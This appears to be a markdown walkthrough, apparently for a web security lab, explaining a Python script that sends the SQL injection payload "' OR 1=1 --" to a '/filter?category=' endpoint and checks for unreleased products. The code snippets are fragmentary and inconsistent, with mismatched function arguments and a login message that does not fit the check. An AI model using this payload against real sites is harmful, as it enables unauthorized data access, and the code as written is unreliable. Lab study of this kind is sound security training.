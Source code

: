 # About the python script

- It takes two cmd line params
    - the URL and the SQLi paylod 
    - takes those two parameters/arguments
     
``` python
  def main():
  try:
      url = sys.argv[1].strip()
      payload = sys.argv[2].strip() 
```
`./sqli-01.py https://webacademey.net "' OR 1=1 --`

<br>
 
- And if incorrect number of parameters..
``` python
    except IndexError:
        print("[-] Usage: %s <url> <payload>" % sys.argv[0])
        print('[-] Example: %s www.example.com "1=1"' % sys.argv[0])
        sys.exit(-1)
```
<br>

- function that evaluates to True if SQLi present:
- accepts the two args- URL & Payload
``` python
    if exploit_sqli(s, url, sqli_payload):
        print("[+] Success! You are now logged in as admin.")
    else:
        print("[-] Denied!.")
```
<br>

- The exploit function
    - accepts the two args- URL & Payload concatenates the URL and the payload after the = sign
``` python
# the exploit function, accepts the URL and the SQLi payload as args
def exploit_sqli(url, payload):
    uri = '/filter?category='
    r = requests.get(url + uri + payload, verify=False, proxies=proxies) 
```
<br>

- Check for presence of an unreleased item on the page to confirm successful exploitation
  - "Cat Grin", is one of those items
```python
 if "Cat Grin" in r.text:
        return True
    else:
        return False
```
